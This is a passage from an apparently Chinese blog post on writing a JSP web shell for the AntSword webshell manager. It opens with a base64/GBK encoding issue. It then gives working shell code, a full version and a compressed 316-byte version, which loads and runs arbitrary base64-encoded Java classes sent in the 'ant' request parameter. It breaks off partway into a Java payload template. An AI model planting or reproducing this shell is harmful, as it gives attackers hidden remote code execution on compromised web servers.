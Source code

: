 ![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900377017-ff2605ab-e912-4ab6-ae77-2bc5bbcf10b8.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900377110-f6e42800-544d-4d9f-bc71-47868ff1a477.png)

原因为什么呢？

因为base64对GBK类型的中文和跟UTF8类型的中文编码结果是不一样的，然而抓包发现蚁剑在custom模式下，不管用户选择的编码是什么都是对UTF8编码的中文进行base64处理。

但是经过测试php类型会正常的根据用户的字符类型来base64编码。

emmmm，玄学问题。

最简单的解决方法就是直接在payload中base64解码的时候强制使用UTF-8解码。

#### 模板设计

Shell模板

```
<%@ page import="sun.misc.BASE64Decoder" %>
<%!
    class U extends ClassLoader{
        U(ClassLoader c){
            super(c);
        }
        public Class g(byte []b){
            return super.defineClass(b,0,b.length);
        }
    }
    BASE64Decoder decoder=new sun.misc.BASE64Decoder();
%>
<%
    String cls=request.getParameter("ant");
    if(cls!=null){
    new U(this.getClass().getClassLoader()).g(decoder.decodeBuffer(cls)).newInstance().equals(pageContext);
    }
%>
```

压缩一下后只有316个字节，由于去掉了解密功能，所以比冰蝎还小。

```
<%!class U extends ClassLoader{ U(ClassLoader c){ super(c); }public Class g(byte []b){ return super.defineClass(b,0,b.length); }}%><% String cls=request.getParameter("ant");if(cls!=null){ new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext); }%>
```

Payload模板

其中`encoder`为编码方式，默认为空，可选hex或者base64。`charset`为字符编码，默认UTF-8。蚁剑将会根据用户的选择自动发送。

**注意：特别不建议选用默认编码器，遇到中文路径会错误，我也不知道为什么。**

```
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.jsp.PageContext;
import java.io.ByteArrayOutputStream;
public class Demo {
    public String encoder;
    public String cs;
    @Override
    public boolean equals(Object obj) {
        PageContext page = (PageContext)obj;
        ServletRequest request = page.getRequest();
        ServletResponse response = page.getResponse();
        encoder = request.getParameter("encoder")!=null?request.getParameter("encoder"):"";
        cs=request.getParameter("charset")!=null?request.getParameter("charset"):"UTF-8";
```